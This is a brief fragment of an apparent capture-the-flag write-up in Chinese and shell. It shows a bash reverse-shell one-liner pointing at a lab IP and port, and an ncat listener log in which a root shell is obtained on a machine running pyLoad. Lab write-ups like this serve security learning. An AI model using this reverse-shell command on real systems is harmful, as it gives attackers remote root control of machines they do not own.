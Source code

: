 ```shell
#bash -c 'bash -i >& /dev/tcp/10.10.11.15/9999 0>&1'
```

```shell
[2023- 6-07 16:58:24 CST] Fanxiaoyao tools/linpeas
🔍🤡 -> ncat -lvnp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.11.214.
Ncat: Connection from 10.10.11.214:42268.
bash: cannot set terminal process group (1051): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# whoami
whoami
root
root@pc:~/.pyload/data#
```

拿到system flag。
